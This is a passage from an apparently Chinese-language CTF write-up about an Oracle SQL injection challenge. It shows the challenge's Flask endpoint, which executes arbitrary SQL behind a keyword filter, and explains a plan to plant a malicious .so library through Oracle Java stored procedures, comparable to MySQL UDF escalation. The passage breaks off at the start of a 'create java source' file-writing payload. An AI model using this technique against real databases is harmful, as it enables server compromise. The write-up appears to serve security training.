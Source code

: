 ```plain
        if blackword in sql:
            return True


def log(ip, sql, error=None):
    error_text = "-----------------------{}-----------------------\n".format(ip)
    error_text += "sql: {} \n".format(sql)
    if error != None:
        error_text += "error: {} \n".format(error)
    error_text += "-------------------------------------------------"
    logging.error(error_text)


@app.route("/query", methods=["POST"])
def query():
    sql = request.form["sql"]
    ip = request.remote_addr
    if check(sql):
        return "waf"
    else:
        try:
            conn = oracledb.connect(user=username, password=password, dsn=dsn)
            conn.callTimeout = 5000
            cursor = conn.cursor()
            cursor.execute(sql)
            cursor.close()
            conn.close()
            log(ip, sql)
        except Exception as e:
            log(ip, sql, e)
            return "error"
        return "query success"


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8888)
```

题目就是这样，一个 oracle 注入，做了一些过滤，然后是任意 sql 语句执行。然后这一题首先我们是不可以使用任何 Java 代码中的 RCE 函数。首先 oralce 内置的 jdk 好像是 1.6，其次题目 waf 中过滤了所有命令执行函数，因此是行不通的（System.load 确实也不可以)  
那么这一题的思路其实就回到了之前讲到的 lib 加载了，和 mysql 的 udf 提权有点类似，写一个恶意 so 进去，然后给他注册了。  
首先创建 Java Source，创建起来，可以看到后台是创建成功了的

```plain
sql=create or replace and compile java source named "JavaTool" as
import java.io.ByteArrayInputStream;
import java.io.FileOutputStream;
import java.util.zip.GZIPInputStream;

public class JavaTool {
    public static String write(String path) throws Exception {
```